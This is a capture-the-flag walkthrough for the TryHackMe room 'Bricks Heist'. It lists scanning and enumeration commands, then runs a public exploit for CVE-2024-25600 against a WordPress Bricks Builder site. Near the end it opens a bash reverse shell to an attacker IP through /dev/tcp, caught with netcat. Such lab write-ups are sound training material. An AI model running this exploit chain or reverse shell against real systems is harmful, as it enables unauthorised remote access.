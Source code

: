# TryHack3M: Bricks Heist

#### Add hostname to host file <a href="#add-hostname-to-host-file" id="add-hostname-to-host-file"></a>

```
echo $VICTIM bricks.thm  >> /etc/hosts
cat /etc/hosts
```

## &#x20;<a href="#scans" id="scans"></a>

## **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

**Kali**

```
gobuster dir -u http://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

## **TCP/443 - HTTPS**

**Kali**

```
gobuster dir -k -u https://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```







<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
wpscan --url https://bricks.thm/ --disable-tls-checks
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT.git
cd CVE-2024-25600-EXPLOIT/
python CVE-2024-25600.py -u https://bricks.thm/
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Shell <a href="#initial-shell" id="initial-shell"></a>

**Kali**

```
nc -lvnp 1337
```



**Kali(Shell)**

```
bash -c 'exec bash -i >& /dev/tcp/10.10.181.161/1337 0>&1'
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
systemctl list-units --type=service --state=running
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
systemctl cat ubuntu.service
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

